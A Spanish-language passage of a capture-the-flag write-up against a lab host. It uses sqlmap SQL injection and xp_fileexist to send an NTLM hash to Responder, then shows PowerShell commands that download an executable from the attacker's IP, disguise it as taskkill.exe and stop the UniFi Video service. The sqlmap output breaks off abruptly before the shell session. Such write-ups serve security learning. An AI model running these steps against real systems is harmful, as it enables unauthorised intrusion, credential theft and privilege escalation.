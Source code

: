 ```
| restorefile                                              |
| restorefilegroup                                         |
| restorehistory                                           |
| suspect_pages                                            |
| sysdac_instances                                         |
| syspolicy_conditions                                     |
| syspolicy_configuration                                  |
| syspolicy_object_sets                                    |
| syspolicy_policies                                       |
| syspolicy_policy_categories                              |
| syspolicy_policy_category_subscriptions                  |
| syspolicy_policy_execution_history                       |
| syspolicy_policy_execution_history_details               |
| syspolicy_system_health_state                            |
| syspolicy_target_set_levels                              |
| syspolicy_target_sets                                    |
+----------------------------------------------------------+

```

Después de buscar y buscar dentro de la DB, opte por un approach diferente... Probar que puede ejecutarse desde este proceso dentro del sistema operativo. Claro lo mas evidente fue usar --os-cmd, pero este fallo. No cerrándome a este resultado, abrí google e investigue un poco, llegando a varios artículos interesantes:

- [Hacking SQL Server Stored Procedures](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation)
- [Executing SMB Relay Attacks via SQL Server using Metasploit](https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/)
- [Full MSSQL Injection PWNage, More Dangerous SQL Injection Attack](https://www.exploit-db.com/papers/12975)

Esto me genero la idea de que si era posible lanzar xp\_dirtree o xp\_fileexist hacia responder, podríamos capturar el hash.

# exec xp\_fileexist

Iniciamos por abrir en una consola Responder con `python Responder.py -wrf -I tun0`. En otra consola iniciamos sqlmap en modo sql-shell y ejecutamos el exec:

```
xbytemx@laptop:~$ sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" --sql-shell
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:02:53 /2019-02-15/

[14:02:53] [INFO] resuming back-end DBMS 'microsoft sql server'
[14:02:53] [INFO] testing connection to the target URL
[14:02:53] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService